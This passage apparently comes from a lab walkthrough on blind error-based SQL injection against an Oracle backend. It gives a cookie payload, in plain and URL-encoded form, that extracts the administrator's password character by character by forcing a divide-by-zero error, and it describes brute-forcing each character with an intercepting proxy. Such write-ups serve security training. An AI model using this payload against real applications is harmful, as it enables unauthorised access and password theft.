 For the first letter of the administrator user's password we will user (using
SUBSTR because it is Oracle):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE' AND (SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))='a')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/9cad55f3d5b769a5e970b7d0311ea410.png)

We send this to the Intruder and test all letters and numbers until one
generates a 500 error code:

![img](media/30909ec39fdd9fd024ad552066dd83bd.png)
